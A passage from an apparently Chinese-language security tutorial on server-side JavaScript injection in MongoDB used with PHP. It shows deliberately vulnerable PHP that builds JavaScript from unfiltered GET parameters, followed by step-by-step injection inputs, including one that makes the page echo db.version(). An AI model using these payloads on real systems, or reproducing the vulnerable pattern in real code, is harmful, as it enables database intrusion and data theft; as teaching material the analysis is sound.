 `login: user3` 

`pass: thepolice`

该算法适用于find（）和findOne（）。

### **SSJS请求注入漏洞分析**

如果MongoDB和PHP一起使用，存在一个与服务器发出的SSJS请求有关的典型漏洞。

假设我们有一段存在漏洞的代码，它将用户数据注册到数据库中，然后在操作过程中输出某些字段的值。 类似于留言簿的功能。

代码如下所示：

```php
$q = "function() { var loginn = '$login'; var passs = '$pass';          db.members.insert({id : 2, login : loginn, pass : passs});
```

一个重要的条件是变量$ pass和$ login直接从数组$ _GET获取，并且不对$ _GET获取的信息进行过滤：

`$login = $_GET['login'];`

`$pass = $_GET['password'];`

以下是执行此请求并从数据库输出数据的代码：

`$db->execute($q);`

`$cursor1 = $collection->find(array("id" => 2)); foreach($cursor1 as $obj2){`

`echo "Your login:".$obj2['login'];`

`echo "<br>Your password:".$obj2['pass'];`

`}`

测试脚本准备好了，接下来就是练习。 发送测试数据：

```cobol
?login=user&password=password
```

接收以下数据作为回应：

`Your login: user`

`Your password: password`

我们试图利用这个漏洞，从最简单的引号开始：

```cobol
?login=user&password=';
```

，SSJS代码由于出错而未被执行。但是，如果发送以下数据，所有内容都会发生变化：

```cobol
/?login=user&password=1'; var a = '1
```

接下来将代码改写，使页面能显示代码的执行结果：

```cobol
?login=user&password=1'; var loginn = db.version(); var b='
```
